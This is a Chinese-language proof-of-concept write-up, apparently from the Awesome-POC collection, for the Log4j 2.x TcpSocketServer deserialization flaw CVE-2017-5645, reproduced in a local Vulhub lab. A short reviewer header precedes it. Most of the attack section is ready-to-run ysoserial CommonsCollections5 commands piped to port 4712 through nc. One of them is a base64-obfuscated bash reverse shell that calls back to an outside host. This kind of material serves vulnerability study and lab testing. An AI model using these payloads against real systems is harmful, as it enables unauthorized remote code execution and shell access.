


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Log4j2.x before2.8.2; exposed TCPServer4712 plus CommonsCollections gadget availability

代码与实验材料：Local Vulhub startup and Java server command, ysoserial pipeline, marker and shell examples; gadget dependency/version and Java restrictions absent

来源证据范围：Awesome-POC attribution and payload-builder URL; Vulhub directory link missing

- **结论使用边界（1）**：Does not distinguish optional network log server from ordinary library use; no fix procedure。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（2）**：The second example uses a hard-coded base64 callback whose environment and authorization require clarification; screenshot success not verified。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Apache Log4j Server 反序列化命令执行漏洞 CVE-2017-5645

## 漏洞描述

Apache Log4j是一个用于Java的日志记录库，其支持启动远程日志服务器。Apache Log4j 2.8.2之前的2.x版本中存在安全漏洞。攻击者可利用该漏洞执行任意代码。

## 环境搭建

Vulhub执行如下命令启动漏洞环境

```
docker-compose up -d
```

环境启动后，将在4712端口开启一个TCPServer。

说一下，除了使用vulhub的docker镜像搭建环境外，我们下载了log4j的jar文件后可以直接在命令行启动这个TCPServer：`java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`，无需使用vulhub和编写代码。

## 漏洞复现

我们使用ysoserial生成payload，然后直接发送给`your-ip:4712`端口即可。

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

然后执行`docker-compose exec log4j bash`进入容器，可见 /tmp/success 已成功创建：



执行[反弹shell的命令](http://www.jackson-t.ca/runtime-exec-payloads.html)，成功弹回shell：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 "bash -c {echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTc0LjEyOC85OTk5IDA+JjE=}|{base64,-d}|{bash,-i}" | nc your-ip 4712
```




---

> 来源：Threekiii/Awesome-POC
